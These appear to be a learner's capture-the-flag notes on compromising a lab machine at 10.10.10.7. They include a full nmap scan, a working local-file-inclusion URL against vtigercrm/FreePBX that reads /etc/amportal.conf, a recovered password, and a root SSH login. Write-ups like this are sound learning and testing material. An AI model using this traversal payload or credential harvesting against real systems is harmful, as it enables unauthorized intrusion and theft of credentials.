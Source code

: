 # Recon
```
$ nmap -p- --min-rate 10000 10.10.10.7
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-01 17:02 EEST
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.48% done; ETC: 17:02 (0:00:13 remaining)
Nmap scan report for 10.10.10.7
Host is up (0.13s latency).
Not shown: 65476 filtered tcp ports (no-response), 49 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
143/tcp  open  imap
443/tcp  open  https
993/tcp  open  imaps
995/tcp  open  pop3s
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 18.01 seconds
```
- the webpage cannot be loaded due to Firefox and other browsers changing their min TLS version to a number higher than what the box supports
- Port 80 just returns a redirect to port 443 / HTTPS where there’s an an Elastix login page
- dirb shows us there is an admin page /admin
- going to admin page it asks for authentication
- hiting cancel prompts us to this page https://10.10.10.7/admin/reports.php which provide info like freepx
- searching for exploit for freepbx version and elastix we found a lfi vulun
- poc for lfi
- ```
  https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
  ```
- viewing the page source the page seems readable and found different password but the one i guess is right is this **jEhdIekWmdjE**
- ssh as root with this password we got a sheel as root
- 
- 
- 
